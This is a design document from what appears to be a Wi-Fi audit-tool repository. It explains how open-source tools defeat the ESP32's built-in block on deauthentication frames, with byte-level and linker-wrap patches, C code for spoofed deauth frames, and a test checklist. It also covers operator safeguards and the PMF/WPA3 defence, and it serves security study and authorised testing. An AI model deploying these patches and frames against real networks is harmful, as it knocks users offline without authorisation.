




# How Marauder & friends patch the ESP32 to send 802.11 deauth frames

> **Lawful-use anchor.** This document is an analysis of a well-documented
> open-source technique (Apache- and GPL-licensed projects publish the
> exact mechanism). Medusa ships the capability under operator-side guards
> (per-session enable, BSSID allow-list, rate limit, audit log — see
> `design/threat-model.md`). Use only against networks you own, administer,
> or are authorized to test. The `NOTICE` Section 4(c) clause is binding
> on derivatives.

## TL;DR

Espressif's WiFi library (`libnet80211.a`, **closed-source binary blob**
shipped with ESP-IDF) contains a function called
**`ieee80211_raw_frame_sanity_check`**. When you call
`esp_wifi_80211_tx()` to transmit a raw 802.11 frame, this function
inspects the frame's type/subtype and **rejects** management frames that
Espressif chose to block: deauthentication (subtype 0xC),
disassociation (0xA), and a handful of others.

Tools like **ESP32-Marauder** (justcallmekoko), **Spacehuhn's
ESP8266/ESP32 deauther**, **Bruce**, and several Pwnagotchi-class
projects bypass this gate by **patching the function to always return
0**. After the patch, `esp_wifi_80211_tx()` happily transmits whatever
you hand it — deauth, disassoc, anything.

Three patch methods are commonly used:

1. **Binary patch** the .a file (Marauder's distribution model)
2. **Linker `--wrap`** symbol redirection (cleanest, build-system friendly)
3. **Source-level symbol override** (works only when the function isn't in a binary blob)

The Xtensa LX7 instruction sequence is **2 instructions, 4 bytes**:

```
movi.n  a2, 0    ; load 0 into return register
ret.n            ; return
```

The defense — **802.11w (PMF, Management Frame Protection)** — adds a
cryptographic MIC to management frames. WPA3 mandates PMF; WPA2 makes
it optional. Against a PMF-enabled target, the patched-deauth attack
just fails: the receiving station discards forged frames.

---

## 1. Where the gate lives

ESP-IDF ships its WiFi stack as **three closed-source binary blobs**:

| File | Role |
|---|---|
| `libpp.a` | "PP" — packet processor, low-level 802.11 frame handling |
| `libnet80211.a` | 802.11 MAC / state machines / management-frame logic |
| `libphy.a` | RF baseband / PHY driver |

These live in your IDF installation:

```
$IDF_PATH/components/esp_wifi/lib/esp32s3/
    libpp.a           ~1-2 MB
    libnet80211.a     ~600 KB-1 MB
    libphy.a          ~250 KB
```

(For classic ESP32: `…/lib/esp32/…`. For ESP32-C3 / C6 / S2 / H2: each
has its own subdirectory because the chip cores and PHYs differ.)

The function we care about — **`ieee80211_raw_frame_sanity_check`** —
is in `libnet80211.a`. You can confirm its presence with `nm`:

```bash
# in your IDF install
xtensa-esp32s3-elf-nm $IDF_PATH/components/esp_wifi/lib/esp32s3/libnet80211.a \
    | grep -i sanity
# expected: 00000000 T ieee80211_raw_frame_sanity_check
```

The `T` means a defined text-section symbol — code is at offset 0
within the object file that contains it. The function symbol has been
stable across ESP-IDF **v4.4 → v5.x**. (Pre-v4.4 the name was slightly
different; Marauder's older releases handle the rename internally.)

---

## 2. What the function does (and how Espressif uses it)

The function signature (reconstructed from Marauder's wrapper code and
IDF SDK header hints):

```c
int ieee80211_raw_frame_sanity_check(int32_t arg1, int32_t arg2, int32_t arg3);
```

The exact argument semantics aren't publicly documented. From callsite
context within `libnet80211.a`, it's invoked from inside the
`esp_wifi_80211_tx()` code path with the outgoing frame buffer and its
metadata. The function returns:

- `0` → frame OK, proceed with transmission
- non-zero (typically `-1`) → reject; `esp_wifi_80211_tx()` returns
  `ESP_ERR_INVALID_ARG` (`0x0102`) to the caller, frame is dropped

Espressif added this check explicitly to prevent the ESP32 from being
trivially weaponizable. Their public-facing line is "the ESP32 is not
a wireless audit tool". Functionally: an unpatched ESP32 can sniff in
promiscuous mode and **transmit data frames** (raw 802.11 data with
custom MAC headers) but **cannot transmit management frames**.

---

## 3. The TX call flow — normal vs patched



---

## 4. The three patch methods



### Method 1 — Binary patch (Marauder's approach)

Marauder ships a **pre-patched `libnet80211.a`** in its repo at
`lib/esp_wifi/esp32s3/libnet80211.a` (and parallel paths for esp32,
esp32c3, etc.). PlatformIO's build replaces the IDF default with this
file via a `lib_replace` configuration.

To do it yourself:

```bash
# 1. Find the function offset in the .a file.
#    .a is just an `ar` archive of .o files. Find the right .o:
cd /tmp
ar x $IDF_PATH/components/esp_wifi/lib/esp32s3/libnet80211.a
xtensa-esp32s3-elf-objdump -d ieee80211_input.o \
    | grep -A 1 'ieee80211_raw_frame_sanity_check'
# Look at the function entry; note the first 4-8 bytes of opcode.

# 2. Use a hex editor / python script to overwrite those bytes with:
#       0c 02       movi.n a2, 0
#       0d f0       ret.n
#    (Xtensa LX7 little-endian; these are the canonical bytes for the
#    16-bit narrow forms of movi and ret. Total: 4 bytes.)

# 3. Repack the .a:
ar rcs libnet80211.a *.o

# 4. Replace the file in IDF, or use lib_replace in platformio.ini
```

> ⚠️ The exact byte offset varies by IDF version. Newer IDF (v5.x) may
> have a slightly different prologue. **Always verify with objdump
> first** rather than trusting an offset from an older blog post.

### Method 2 — Linker `--wrap` (cleaner)

GCC/clang's linker supports `--wrap=symbol`: every reference to
`symbol` gets redirected to `__wrap_symbol`, and the original is
available as `__real_symbol`. You don't touch the .a at all.

In your `platformio.ini` or `CMakeLists.txt`:

```ini
; platformio.ini
[env:medusa-esp32s3]
build_flags =
    -Wl,--wrap=ieee80211_raw_frame_sanity_check
```

```c
// firmware/components/wifi_sniffer/deauth_wrap.c

#include <stdint.h>

/**
 * Linker wrapper: every call to ieee80211_raw_frame_sanity_check
 * from inside libnet80211.a is redirected here. We always say "OK".
 *
 * This is the cleanest patch shape — no binary editing, no checked-in
 * pre-patched library, just a 3-line build-flag + this stub.
 */
int __wrap_ieee80211_raw_frame_sanity_check(int32_t a, int32_t b, int32_t c) {
    (void)a; (void)b; (void)c;
    return 0;
}
```

**This is the recommended approach for Medusa.** It keeps the IDF
default `libnet80211.a` untouched, makes the patch visible in source
control (in `medusa-deauth-wrap.c`), and survives IDF upgrades that
might shift the binary's internal offsets.

### Method 3 — Source override (not viable)

In principle, if you redefine the symbol in your own source, the
linker picks your version over the library's. **This doesn't work
here** because `libnet80211.a` is a binary blob — the function
implementation is locked inside. You can only intercept at link time
via `--wrap`, or rewrite the bytes (Method 1).

---

## 5. The Xtensa LX7 assembly — what the patch actually looks like

The patched function body is **two 16-bit Xtensa narrow instructions**,
total 4 bytes:

```assembly
; ieee80211_raw_frame_sanity_check (patched)
movi.n  a2, 0     ; 0x0c 0x02 — load immediate 0 into register a2
ret.n             ; 0x0d 0xf0 — return (narrow form)
```

Xtensa calling convention: **return value goes in register `a2`** (and
`a3` for 64-bit returns). Setting `a2 = 0` and immediately returning
means the function returns 0 unconditionally.

The original function entry is larger — it sets up a stack frame,
inspects the frame header byte at some offset, branches on the type +
subtype fields, then returns. The patch obliterates all that with a
4-byte stub. The remaining bytes of the original function body become
unreachable dead code — they sit in the .text section but are never
executed.

> Note: ESP32 classic (LX6) and ESP32-S3 (LX7) use the same Xtensa ISA
> family, so the patch bytes are identical. **What differs is the
> offset within their respective `libnet80211.a` files.** Marauder
> ships separate patched libraries per chip target.

---

## 6. The 802.11 deauthentication frame



In C, with ESP-IDF types:

```c
// firmware/components/wifi_sniffer/deauth_frame.c

typedef struct __attribute__((packed)) {
    uint16_t  frame_control;   // 0x00C0 = type=Mgmt(0), subtype=Deauth(0xC)
    uint16_t  duration;        // typically 0
    uint8_t   da[6];           // destination — target STA or broadcast
    uint8_t   sa[6];           // source — spoofed AP MAC
    uint8_t   bssid[6];        // real AP MAC
    uint16_t  seq_ctrl;        // sequence; chip overwrites if en_sys_seq=true
    uint16_t  reason_code;     // see common reason codes below
} ieee80211_deauth_t;

void medusa_send_deauth(const uint8_t target_sta[6],
                        const uint8_t ap_mac[6],
                        uint16_t reason)
{
    ieee80211_deauth_t f = {
        .frame_control = 0x00C0,
        .duration      = 0,
        .seq_ctrl      = 0,
        .reason_code   = reason,
    };
    memcpy(f.da,    target_sta, 6);
    memcpy(f.sa,    ap_mac,     6);   // spoof from the AP
    memcpy(f.bssid, ap_mac,     6);

    // After the patch, this transmits. Before the patch, it returns
    // ESP_ERR_INVALID_ARG and nothing goes on the air.
    esp_wifi_80211_tx(WIFI_IF_STA, &f, sizeof(f), true /* en_sys_seq */);
}
```

### Common reason codes

| Code | Name | Effect on victim |
|---:|---|---|
| `0x0001` | Unspecified reason | Generic disconnect; client retries |
| `0x0002` | Previous authentication no longer valid | Client re-associates |
| `0x0003` | Deauth because STA is leaving | Spoofed-from-STA flavor |
| `0x0006` | Class 2 frame from non-authenticated STA | Aggressive disconnect |
| `0x0007` | Class 3 frame from non-associated STA | Aggressive disconnect; most common in tooling |
| `0x0008` | Disassoc because STA is leaving BSS | Disassoc-flavored variant |

Marauder defaults to `0x0001`. Tools that aim to "look like the network
is misbehaving" use `0x0006` or `0x0007`. From a victim-STA
perspective, all of these terminate the session and trigger a
reconnect cycle.

---

## 7. The defense — 802.11w / Management Frame Protection (PMF)



PMF (defined in **IEEE 802.11w-2009**, integrated into 802.11-2020
§11.4) adds a cryptographic **Management MIC** to deauth, disassoc,
and certain action frames. The MIC is computed using a key derived
from the PTK (the per-session pairwise key established during the
4-way handshake). Without the PTK, an attacker cannot produce a valid
MIC — the victim's driver rejects the forged frame.

**Where PMF stands today (2026):**

- **WPA3 (personal + enterprise)**: **PMF mandatory**. Deauth attack
  fails by design.
- **WPA2-Personal**: PMF is **optional**. Network admin must enable
  ("Required" or "Capable" mode). Most home routers ship with PMF off
  or capable-not-required.
- **WPA2-Enterprise**: PMF availability depends on the deployment.
  Enterprise gear usually supports it; admins enable per policy.
- **Open networks (no encryption)**: no PMF possible — there's no key
  to derive a MIC from. Captive-portal cafés are always vulnerable.

For Medusa's audit-your-own-network use case: **test with PMF off
first** (most home network configs), then **enable PMF on your AP**
and confirm the attack stops working. That's the defensive-engineer
loop the tool unlocks.

---

## 8. Integrating into Medusa firmware

Recommended approach: **Method 2 (linker `--wrap`)** for the patch +
operator-side guards layered on top per `design/threat-model.md`.

```
firmware/components/wifi_active/
    deauth_wrap.c        # the __wrap_ieee80211_raw_frame_sanity_check stub
    deauth_frame.c       # the deauth-frame builder shown in §6
    deauth_api.c         # public API with the safety guards
    deauth_api.h
    CMakeLists.txt       # adds -Wl,--wrap=ieee80211_raw_frame_sanity_check
```

The safety guards (per threat-model.md) wrap any caller of
`medusa_send_deauth()`:

```c
esp_err_t medusa_active_deauth(const uint8_t target_sta[6],
                               const uint8_t bssid[6],
                               uint16_t reason)
{
    // 1. Active TX must be enabled this session
    if (!s_active_tx_enabled) return ESP_ERR_INVALID_STATE;

    // 2. BSSID must be on the operator's allow-list
    if (!medusa_allowlist_contains(bssid)) {
        ESP_LOGW(TAG, "deauth attempt against unlisted BSSID — denied");
        return ESP_ERR_NOT_ALLOWED;
    }

    // 3. Rate limit
    if (!medusa_rate_limiter_acquire()) return ESP_ERR_TIMEOUT;

    // 4. Audit log entry
    medusa_audit_log_tx(target_sta, bssid, reason);

    // 5. Broadcast deauths require a separate confirmation
    if (memcmp(target_sta, "\xff\xff\xff\xff\xff\xff", 6) == 0) {
        if (!s_broadcast_deauth_confirmed) return ESP_ERR_NOT_ALLOWED;
    }

    // Now actually send (the patched API call)
    medusa_send_deauth(target_sta, bssid, reason);
    return ESP_OK;
}
```

These guards live in firmware — not just UI. Companion-app prompts the
operator to enable active TX per session, manage the BSSID allow-list,
and confirm broadcast deauths separately. All TX gets logged to NVS
with timestamp + session ID.

---

## 9. Practical reproduction checklist

For an engineer with ESP32-S3 hardware in hand:

1. **Confirm the function exists in your IDF.** Run the `nm` command
   from §1. If it returns the symbol, you're on a supported IDF.
2. **Pick Method 2** (linker `--wrap`). Add the build flag + the wrap
   stub to a fresh PlatformIO project.
3. **Build a minimal test firmware** that just sends a single broadcast
   deauth in a loop with a 1-second delay.
4. **Sniff with a second device** (a laptop in monitor mode, Wireshark
   with display filter `wlan.fc.type_subtype == 0x0c`) and confirm the
   deauth frames appear on the air.
5. **Confirm victim behaviour** on a test STA — your own laptop or
   phone, connected to your own AP. WPA2 without PMF: STA disconnects
   + reconnects. WPA2 with PMF Required: STA stays connected (frame
   rejected at the driver level).
6. **Enable PMF on your test AP**, repeat the test, observe the
   defense working.

That's the closed feedback loop. From there, the work for Medusa is
integrating the API behind the safety guards in §8 + wiring the
companion-app UI.

---

## 10. References

- **ESP32-Marauder** — justcallmekoko/ESP32Marauder (GPL-3.0). The
  reference implementation. Pre-patched `libnet80211.a` lives in
  `lib/esp_wifi/esp32s3/` and parallel chip paths. Source for the
  deauth frame construction logic lives in
  `esp32_marauder/WiFiScan.cpp`.
- **Spacehuhn's esp8266_deauther** — the original (2017+) that
  popularized the technique on the ESP8266. The ESP32 port reused much
  of the protocol-level work. Github: SpacehuhnTech/esp8266_deauther.
- **Bruce** — pr3y/Bruce (GPL-3.0). M5StickC/Cardputer-focused multi-tool
  that uses the same patch model.
- **Espressif ESP-IDF docs** — Wi-Fi API documentation at
  docs.espressif.com (esp_wifi_80211_tx, esp_wifi_set_promiscuous,
  esp_wifi_set_promiscuous_rx_cb). The sanity check is **not**
  publicly documented — knowledge of its existence is community-derived.
- **IEEE 802.11-2020** — §9.3.3.13 (Deauth frame format), §11.4
  (Management Frame Protection), §12 (security architecture).
- **Wi-Fi Alliance WPA3 specification** — mandates PMF.

## 11. Cross-references in this repo

- `design/threat-model.md` — the operator safety guards section
- `design/architecture.md` — where `wifi_active` fits in the component layout
- `hardware/power-budget.md` — TX-mode current draw matters for sustained sessions
- `MISSION.md` — pinned MCU = ESP32-S3, so this analysis assumes Xtensa LX7
